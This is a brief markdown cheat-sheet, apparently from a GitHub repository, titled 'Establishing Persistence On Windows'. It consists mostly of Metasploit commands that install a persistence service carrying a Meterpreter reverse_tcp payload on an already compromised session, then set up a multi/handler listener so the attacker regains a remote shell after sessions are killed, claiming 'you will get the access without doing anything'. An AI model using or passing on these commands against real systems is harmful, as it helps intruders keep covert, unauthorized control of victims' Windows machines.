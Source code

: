 # Establishing Persistence On Windows
  - __`search platform:windows persistence`__

```
use exploit/windows/local/persistence_service
set payload windows/meterpreter/reverse_tcp
set SEESION 1
exploit
```
__If you kill the all session also i can get the access to the target system__

```
use exploit/multi/handler
set LHOST eth1
exploit
```
> __you will get the access without doing anything__
